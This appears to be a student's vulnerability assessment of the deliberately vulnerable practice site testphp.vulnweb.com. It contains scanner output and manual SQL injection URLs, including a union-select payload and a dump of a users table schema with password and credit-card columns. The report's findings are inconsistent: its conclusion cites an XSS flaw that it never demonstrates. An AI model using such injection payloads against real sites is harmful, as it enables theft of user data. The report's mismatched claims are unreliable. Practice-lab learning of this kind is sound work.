 http://testphp.vulnweb.com/

Do a vulnerability assessment of this website and create report and commit to the this repo at in task-0 for along with your learning circle ID.

cybergooys vulnerability assessment



This vulnerability assessment report was conducted on the web application http://testphp.vulnweb.com/. The assessment was conducted using a variety of tools and techniques, including sqlmap,nikito,manually injection  of SQL The assessment identified a number of vulnerabilities, SQL injection. The most severe vulnerability identified was a SQL injection vulnerability that could allow an attacker to inject sql code into the steal information  and steal user details like email password phonenumber.

*Introduction*

The objective of this vulnerability assessment was to identify and assess the security risks associated with the web application http://testphp.vulnweb.com/. The assessment was conducted in accordance with the Open Web Application Security Project (OWASP) Testing Guide.

*Methodology*

The following tools and techniques were used to conduct the vulnerability assessment:

* **sqlmap :A tool used for injecting SQL injection and getting the database by columns etc.
* *Nikto:* A network security scanner that identifies and assesses vulnerabilities in web servers and other network devices.
* **nmap:A network security scanner that identifies and assesses vulnerabilities in web servers and other network devices.

*Findings*

The following vulnerabilities were identified during the vulnerability assessment:

*Getting database from acart 
*Adding new new images to the poster
*


*Conclusion*

This vulnerability assessment identified a number of security risks associated with the web application http://testphp.vulnweb.com/. The most severe vulnerability identified was a critical XSS vulnerability that could allow an attacker to inject malicious code into the web application and steal user cookies or session tokens. The web application owner should take immediate steps to remediate the identified vulnerabilities.

*Appendix*

mapDatabase: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| name    | varchar(100) |
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+

(sarfas㉿kali)-[~]
└─$ nikto -url http://testphp.vulnweb.com  
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Multiple IPs found: 44.228.249.3, 64:ff9b::2ce4:f903
+ Target IP:          44.228.249.3
+ Target Hostname:    testphp.vulnweb.com
+ Target Port:        80
+ Start Time:         2023-11-17 01:05:16 (GMT5.5)
---------------------------------------------------------------------------
+ Server: nginx/1.19.0
+ /: Retrieved x-powered-by header: PHP/5.6.40-38+ubuntu20.04.1+deb.sury.org+1.
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/


injecting sql manually 

http://testphp.vulnweb.com/listproducts.php?cat=1 order by 15
Error: Unknown column '15' in 'order clause' Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/listproducts.php on line 74 

http://testphp.vulnweb.com/listproducts.php?cat=1%20union%20select%201,2,3,4,5,6,database(),8,9,10,11

added a new poster to it 

nmap scan 

└─$ nmap -v -A 44.228.249.3~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-17 01:46 IST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 01:46
Completed NSE at 01:46, 0.00s elapsed
Initiating NSE at 01:46
Completed NSE at 01:46, 0.00s elapsed
Initiating NSE at 01:46
Completed NSE at 01:46, 0.00s elapsed
Failed to resolve "44.228.249.3~".
NSE: Script Post-scanning.
Initiating NSE at 01:46
Completed NSE at 01:46, 0.00s elapsed
Initiating NSE at 01:46
Completed NSE at 01:46, 0.00s elapsed
Initiating NSE at 01:46
Completed NSE at 01:46, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 1.28 seconds
